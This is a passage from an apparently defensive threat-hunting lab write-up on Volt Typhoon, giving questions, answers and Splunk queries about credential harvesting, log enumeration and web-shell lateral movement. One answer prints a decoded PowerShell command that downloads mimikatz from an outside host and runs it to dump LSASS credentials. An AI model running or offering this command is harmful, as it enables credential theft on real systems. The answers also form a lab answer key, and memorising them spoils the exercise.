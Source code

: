 Volt Typhoon often combs through target networks to uncover and extract credentials from a range of programs. Additionally, they are known to access hashed credentials directly from system memory.

### No. 10 Using reg query, Volt Typhoon hunts for opportunities to find useful credentials. What three pieces of software do they investigate? 

#### Ans: OpenSSH, putty, realvnc

Query: index=* sourcetype="powershell" "reg query"

### No. 11 What is the full decoded command the attacker uses to download and run mimikatz? 

#### Ans: Invoke-WebRequest -Uri "http://voltyp.com/3/tlz/mimikatz.exe" -OutFile "C:\Temp\db2\mimikatz.exe"; Start-Process -FilePath "C:\Temp\db2\mimikatz.exe" -ArgumentList @("sekurlsa::minidump lsass.dmp", "exit") -NoNewWindow -Wait

---

# Task 7 Discovery & Lateral Movement

## Discovery

Volt Typhoon uses enumeration techniques to gather additional information about network architecture, logging mechanisms, successful logins, and software configurations, enhancing their understanding of the target environment for strategic purposes.

## Lateral Movement

The APT has been observed moving previously created web shells to different servers as part of their lateral movement strategy. This technique facilitates their ability to traverse through networks and maintain access across multiple systems.

### No. 12 The attacker uses wevtutil, a log retrieval tool, to enumerate Windows logs. What event IDs does the attacker search for? Answer Format: Increasing order separated by a space. 

#### Ans: 4624 4625 4769

### No. 13 Moving laterally to server-02, the attacker copies over the original web shell. What is the name of the new web shell that was created? 

#### Ans: Auditreport.jspx

Query: sourcetype=powershell CommandLine=Copy-item

---
